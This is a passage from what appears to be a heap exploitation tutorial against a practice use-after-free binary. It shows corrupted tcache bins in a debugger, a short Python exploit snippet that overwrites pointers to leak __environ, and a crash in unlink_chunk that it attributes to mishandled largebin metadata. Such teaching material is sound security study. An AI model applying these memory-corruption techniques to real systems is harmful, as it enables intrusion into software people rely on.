 We should check our bins before calling `new` to make sure that they are corrupted appropriately. 

```
──────────────────────────── Tcachebins for thread 1 ───────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x558d63cf7780, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x558d63cf72b0, size=0x8, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x558d63cf72b0]
Tcachebins[idx=1, size=0x30, count=1] ←  Chunk(addr=0x558d63cf72a0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x558d63cf72a0]
```

Great! Now we're ready to create a new user to fetch the corrupted cached allocations. We can create a new allocation, but we need to be strategic with the values written to the new buffers. `u->name` points now to `u + 0x10`...which is actually itself! So after allocating the buffers in `new,` `u->name`'s new name overwrites its own pointer (and `group`'s pointer, if we so choose). Let's make `u->name` equal to `__environ`'s address so we can leak its value with `print`:

```python
edit(p64(target_overwrite),
    b"BBBB",
    10,
    10,
    p64(glibc_leak) + p64(glibc_leak))
new(p64(environ), b"BBBB", 10, 10, b"AAAA")
leak = _print()
```

Let's run it to check if this holds...

```console
──────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f55c76a47a9 <unlink_chunk.isra+0049> mov    rdx, QWORD PTR [rdi+0x20]
   0x7f55c76a47ad <unlink_chunk.isra+004d> test   rdx, rdx
   0x7f55c76a47b0 <unlink_chunk.isra+0050> je     0x7f55c76a47d1 <unlink_chunk+113>
 → 0x7f55c76a47b2 <unlink_chunk.isra+0052> cmp    rdi, QWORD PTR [rdx+0x28]
   0x7f55c76a47b6 <unlink_chunk.isra+0056> jne    0x7f55c76a482e <unlink_chunk+206>
   0x7f55c76a47b8 <unlink_chunk.isra+0058> mov    rcx, QWORD PTR [rdi+0x28]
   0x7f55c76a47bc <unlink_chunk.isra+005c> cmp    rdi, QWORD PTR [rcx+0x20]
   0x7f55c76a47c0 <unlink_chunk.isra+0060> jne    0x7f55c76a482e <unlink_chunk+206>
   0x7f55c76a47c2 <unlink_chunk.isra+0062> cmp    QWORD PTR [rax+0x20], 0x0
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf_22.04", stopped 0x7f55c76a47b2 in unlink_chunk (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f55c76a47b2 → unlink_chunk(p=0x5620557352c0, av=0x7f55c77feca0 <main_arena>)
[#1] 0x7f55c76a6f69 → _int_malloc(av=0x7f55c77feca0 <main_arena>, bytes=0x480)
[#2] 0x7f55c76a82ca → __GI___libc_malloc(bytes=<optimized out>)
[#3] 0x562054aba324 → new()
[#4] 0x562054aba82e → main()
─────────────────────────────────────────────────────────────────────────────────
```

Hmm. We get a crash when allocating from the caches, specifically in the `unlink_chunk` function. This is called for smallbins and largebins allocations, meaning there is something wrong with our `bio` data. The script above treats `bio`'s overwrite like it is an unsorted bins allocation, as it was in last lesson's example. But now it is in largebins. As mentioned earlier, largebins allocations have a different structure, specifically two pointers to `0x10` bytes before their data in the third and fourth quadword. We can break after sorting `bio` to see what its data should look like when uncorrupted:
